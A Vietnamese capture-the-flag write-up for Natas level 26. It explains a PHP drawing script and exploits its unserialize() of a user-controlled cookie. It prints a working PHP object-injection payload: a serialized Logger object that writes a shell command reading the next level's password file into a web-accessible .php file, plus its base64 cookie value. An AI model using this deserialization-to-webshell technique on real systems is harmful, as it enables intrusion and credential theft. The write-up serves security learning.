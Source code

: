 ![](https://i.imgur.com/DbsBFPC.png)

Ta thực hiện đọc code và giải thích sơ lược về code để hiểu thêm cách hoạt động của nó:
- class Logger{}: được sử dụng để ghi log các thông tin trong ứng dụng
    - Các thuộc tính private như :
        - `logFile`: đường dẫn tới file log.
        - `initMsg`: thông báo được ghi vào log khi bắt đầu một phiên làm việc mới.
        - `exitMsg`: thông báo được ghi vào log khi kết thúc một phiên làm việc.
    - Các phương thức như :
        - `__construct($file)`: phương thức khởi tạo.
        - `log($msg)`: phương thức ghi thông tin vào file log
        - `__destruct()`: phương thức được gọi khi đối tượng Logger bị hủy
- `showImage()`: Kiểm tra file, nếu tồn tại thì hiển thị hình ảnh đó lên.
- `drawFromUserdata()`: Được sử dụng để vẽ các đường thẳng trên một hình ảnh. Hàm nhận một tham số là một hình ảnh `$img` và kiểm tra xem có tồn tại các tham số `x1, y1, x2, y2` trong `$_GET` hay không. Nếu có, hàm sẽ sử dụng các tham số này để vẽ một đường thẳng trên hình ảnh. Tiếp theo, hàm kiểm tra xem cookie `drawing` có tồn tại hay không. Nếu có, hàm sẽ giải mã cookie, chuyển đổi chuỗi đã giải mã sang PHP object bằng `unserialize()`, và vẽ các đường thẳng tương tự như trên.
- `drawImage()`: có chức năng tạo một ảnh PNG mới với kích thước 400x300 pixel thông qua hàm `imagecreatetruecolor()`. Sau đó, hàm gọi tới hàm `drawFromUserdata()` để vẽ các phần tử lên ảnh. Tiếp theo, hàm `imagepng() `được sử dụng để lưu ảnh mới vào tệp có tên được truyền vào thông qua tham số `$filename`. Cuối cùng, hàm `imagedestroy()` được sử dụng để giải phóng bộ nhớ cho ảnh đã được tạo.
- `storeData()`: có chức năng lưu trữ dữ liệu vẽ từ người dùng vào cookie. Cụ thể, nó sẽ lấy tọa độ của điểm đầu và điểm cuối của đường thẳng được vẽ từ các tham số `x1, y1, x2 và y2` trong` $_GET`. Sau đó, nó sẽ kiểm tra xem cookie `drawing` đã tồn tại hay chưa. Nếu đã tồn tại, nó sẽ `unserialize` cookie `drawing` để lấy nội dung dữ liệu vẽ hình trước đó. Nếu không, nó sẽ tạo một mảng mới để lưu trữ dữ liệu vẽ. Sau đó, hàm này sẽ thêm dữ liệu vẽ mới vào mảng và lưu mảng này vào cookie drawing. Trước khi lưu mảng, nó sẽ serialize nó thành một chuỗi và mã hóa base64 để lưu trữ trong cookie.

Ở đây nó dùng hàm unserialize, cung cấp một class nhưng lại không dùng đến, và quan trọng hơn là cookie là thứ ta có thể điều khiển được. Vậy nên ta có thể nghĩ đến việc tận dụng class đã cho sẵn và thực hiện serialization nội dung độc hại để đọc password level tiếp theo tiếp đến dùng burpsuite gửi nó thay thế cho cookie. Và chờ nó giải mã cookie thế là ta đã tạo được một object PHP có chứa câu lệnh độc hại. Ta chỉ cần kích hoạt nó và thế là xong, chúng ta sẽ có thể có được password cho level tiếp theo.

Ý tưởng đã có, bây giờ chúng ta sẽ hiện thực nó như sau :
- Đầu tiên tạo một cookie băng cách thực hiện serialization một đối tượng Logger.

    ```
    <?php
    class Logger{
            private $logFile;
            private $initMsg;
            private $exitMsg;
        
            function __construct(){
                $this->initMsg = "Readpass\n";
                $this->exitMsg = "<?php system('cat /etc/natas_webpass/natas27');?>";
                $this->logFile = "img/level26.php";
            }                       
                        
        }
    $logger = new Logger();
    echo base64_encode(serialize($logger));
    ?>
    #Result : Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNToiaW1nL2xldmVsMjYucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6OToiUmVhZHBhc3MKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw%2FcGhwIHN5c3RlbSgnY2F0IC9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO30%3D
    ```
- Tiếp sau đó dùng burp suite bắt gói tin và thay thế cookie drawing thành Result ở trên.
